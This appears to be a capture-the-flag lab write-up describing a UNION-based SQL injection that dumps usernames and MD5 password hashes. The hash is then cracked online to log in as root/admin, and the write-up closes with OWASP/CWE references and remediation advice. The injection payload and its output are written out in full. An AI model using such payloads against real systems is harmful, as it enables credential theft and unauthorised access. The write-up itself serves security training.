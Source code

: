 # Finding 01 - login credentials - SQL injection


## Exploitability
Easy. Only 2 steps required : inject code in input field, then decrypt md5 using easy-to-find web tool.


## Risk level/type
OWASP top 10 :
- A02:2021 – Cryptographic Failures
	=>" Are deprecated hash functions such as MD5 or SHA1 in use [...] ?"
- A03:2021 – Injection
	=> "Hostile data is directly used or concatenated. The SQL or command contains the structure and malicious data in dynamic queries, commands, or stored procedures."
	=> "User-supplied data is not validated, filtered, or sanitized by the application."


Common Weakness Enumeration :

CWE-327: Use of a Broken or Risky Cryptographic Algorithm
https://cwe.mitre.org/data/definitions/327.html

CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')
https://cwe.mitre.org/data/definitions/89.html

CWE-20: Improper Input Validation
https://cwe.mitre.org/data/definitions/20.html


## Detailed description of the exploit
From previous SQL injection attempts (findings 2 and 7), we have found a table named "Member_Brute_Force"... let's see if it helps.
In a search input field (images or members), let's use the following SQL command:

```1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default```
which yields :
```
1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default
ID: 1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: Nsa
Url : https://fr.wikipedia.org/wiki/Programme_

ID: 1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: 3bf1114a986ba87ed28fc1b5884fc2f8
Url : root

ID: 1 and 1=1 UNION SELECT username, password from Member_Brute_Force.db_default 
Title: 3bf1114a986ba87ed28fc1b5884fc2f8
Url : admin
```
Both root and admin have the same password, which look like it was hashed with md5...

Let's use our web tool again:
https://www.md5online.org/md5-decrypt.html
It gives us:
shadow

We can try to login with either combo (root/shadow and admin/shadow) :
We arrive on a page that says:
"The flag is : b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2 "


## Remediation
Input sanitizing is the first step.
There are several ways to sanitize the input, depending on the code architecture (legacy).
The first step is to use prepared statements with parameterized queries
	-> this means that the query would not be evaluated as a command but as a string, looking for an exact match to the string (i.e. a username matching "1 or 1 = 1")
For legacy code, you can also escape all the user input before putting it in a query.

Also, md5 is now deprecated in favor of sha2 algorithms (sha256, sha512) as well as sha3 algorithms.


## Additional resources
https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html

https://cheatsheetseries.owasp.org/cheatsheets/Database_Security_Cheat_Sheet.html

md5 deprecation notice :
https://www.security-database.com/detail.php?alert=VU836068